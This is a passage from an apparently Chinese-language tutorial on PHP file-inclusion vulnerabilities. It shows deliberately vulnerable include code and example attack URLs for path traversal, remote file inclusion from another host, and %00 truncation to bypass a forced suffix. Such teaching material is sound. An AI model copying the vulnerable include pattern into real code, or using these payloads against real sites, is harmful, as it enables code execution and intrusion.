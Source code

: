 ### 固定后缀

使用`include ( $filename." .html" );`之类的方式固定后缀。但是存在绕过。

**绕过**：各种截断：%00截断、路径长度截断、问号截断、#号截断、空格绕过等。

### 固定所要包含的文件

不传参，直接写死include的文件。

## 绕过

### 无限制文件包含

无限制文件包含是指对于所包含的文件没有限制。无需绕过，可以直接进行文件包含攻击。

```php
<?php
	$filename = $_GET['filename'];
	include($filename);
?>
```

**利用条件**:

需要 `allow_url_include=on`

`http://127.0.0.1:8080/include.php?filename=../../www.txt` 包含本地相对路径的文件。

`http://127.0.0.1/test.php?filename=http://192.168.1.110/xiaohua.txt`

包含在xiaohua.txt中的PHP代码通过远程文件包含被成功当成PHP代码解析。

### 有限制文件包含（需要绕过）

有限制文件包含是指当代码中存在特定的前缀或者.php、.html等扩展名过滤时，攻击者 **需要绕过前缀或者扩展名过滤**，才能执行远程URL中恶意代码。

```php
<?php
     $filename = $_GET['filename'];
     include($filename.”.html”);    // 在文件名后面强制增加html后缀
?>
```

包含文件失败：

![image-20220805085328234](https://frankcao3-picgo.oss-cn-shenzhen.aliyuncs.com/img/image-20220805085328234.png)

#### %00截断

%00会被认为是结束符，后面的数据会被直接忽略，导致扩展名截断。

例如：`[http://127.0.0.1/test.php?filename=xiaohua.txt%00](http://127.0.0.1/test.php?filename=xiaohua.txt)`

**利用条件：**
